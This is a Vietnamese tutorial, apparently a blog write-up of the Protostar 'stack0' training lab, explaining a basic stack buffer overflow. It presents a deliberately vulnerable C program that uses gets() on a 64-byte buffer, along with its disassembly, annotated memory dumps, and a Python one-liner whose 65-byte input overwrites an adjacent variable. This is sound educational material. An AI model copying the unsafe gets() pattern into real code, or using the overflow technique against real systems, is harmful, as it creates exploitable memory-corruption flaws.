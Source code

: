 ```yaml
---
layout: post
---
```


# stack0

Bài này hướng dẫn các bạn cơ bản về stack overflow. Nếu bạn muốn thử, có thể xem qua bài [Setup](./setup.html) để biết thêm về cách thiết lập môi trường.
Sau đây là source code của chương trình stack0:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

Khi đọc qua source code và cả asm của `main`, hãy lưu ý nhưng điều sau:
1. Biến `modified` sẽ được lưu trên stack với địa chỉ `esp + 0x5c`. Biến này có 4 byte.
2. Biến `buffer` cũng được lưu trên stack từ địa chỉ `esp + 0x1c` cho đến `esp + 0x5b`. Biến này có 64 byte.

Từ 2 lưu ý trên, ta thấy được biến `buffer` và `modified` nằm kề nhau.
2 biến này sẽ chiếm bộ nhớ từ `esp + 0x1c` cho đến hết `esp + 0x5f`.
Ở đây, giá trị của biến `buffer` được người dùng quyết định thông qua hàm `gets`.
Stack overflow sẽ xảy ra khi người dùng nhập giá trị cho `buffer` nhưng lại vượt quá độ dài 64 byte của biến đó.
Khi đó, phần dư sẽ được lưu đè lên vùng bộ nhớ kế tiếp.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi người dùng nhập giá trị cho `buffer`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048469</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048450</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804845b</span>      <span style="color:orangered">0x00000000</span>
</pre>

Như vậy chỉ cần nhập chuỗi có độ dài ít nhất 65 byte thì giá trị của `modified` sẽ được thay đổi.
Sau đây là một ví dụ. Lưu ý, ở đây mình dùng file `input.txt` để lưu giá trị nhập vào.

```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
stack0 < input.txt
```

Phần chuỗi `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888"` sẽ chiếm hết 64 byte của `buffer`. `"x"`, tương đương `0x78` sẽ được dành cho `modified`.
Thay đổi trên bộ nhớ có thể thấy được như sau:
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0x41414141</span>
0xbffff760:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff770:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff780:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff790:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
user@protostar:~$ stack0 < input.txt
you have changed the 'modified' variable
```
[back](./)
